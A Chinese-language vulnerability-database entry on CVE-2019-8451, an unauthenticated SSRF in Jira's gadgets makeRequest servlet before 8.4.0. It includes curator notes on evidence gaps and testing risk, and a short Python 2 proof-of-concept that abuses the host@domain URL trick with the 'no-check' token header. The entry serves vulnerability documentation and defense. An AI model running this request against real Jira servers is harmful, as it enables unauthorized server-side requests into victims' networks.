

# Jira gadgets makeRequest SSRF

## 条目说明

- 对象与具体问题：Jira；gadgets makeRequest SSRF
- 版本、配置及部署条件：<8.4.0声明；URL userinfo解析条件
- 认证与权限前提：no-check无Cookie
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 简介空白；host加@目的地主机为核心绕过需解释允许列表/协议范围
- 只有Python2请求与图片，无文本响应或修复
- 图片尾路径残片，不能由外网请求自动推内网任意读取

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

（CVE-2019-8451）Atlassian Jira 未授权SSRF漏洞验证
==================================================

一、漏洞简介
------------

二、影响范围
------------

Atlassian Jira \< 8.4.0

三、复现过程
------------

AtlassianJira未授权SSRF漏洞验证/media/rId24.png)

> https://github.com/ianxtianxt/CVE-2019-8451

    #coding:utf-8
    import requests

    host = 'http://xx.xx.xx.xx:8080'
    header = {
                            'X-Atlassian-Token': 'no-check',
                            'Connection': 'close'
                    }

    url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
    html = requests.get(url = url,headers = header)
    print html.text
